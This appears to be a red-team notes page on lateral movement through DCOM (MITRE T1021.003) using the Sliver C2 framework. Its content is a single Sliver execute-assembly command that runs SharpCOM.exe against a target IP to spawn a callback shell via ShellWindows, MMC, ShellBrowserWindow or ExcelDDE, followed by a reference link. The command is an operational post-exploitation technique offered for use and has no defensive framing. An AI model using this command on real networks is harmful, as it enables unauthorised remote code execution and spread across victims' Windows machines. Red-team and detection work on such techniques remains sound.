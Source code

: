 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - T1021-003
  - network-protocols
  - msrpc
  - sliver
  - windows
---
```

# Sliver

## 01 - Spawn Callback Shell

```
sliver (IMPLANT_NAME) > execute-assembly /path/local/to/SharpCOM.exe --Method <ShellWindows | MMC | ShellBrowserWindow | ExcelDDE> --ComputerName <target_IP> --Command "C:\path\to\shell.exe"
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Lateral Movement/Windows/02 - RPC/04 - DCOM/Offensive Tools/Binaries]]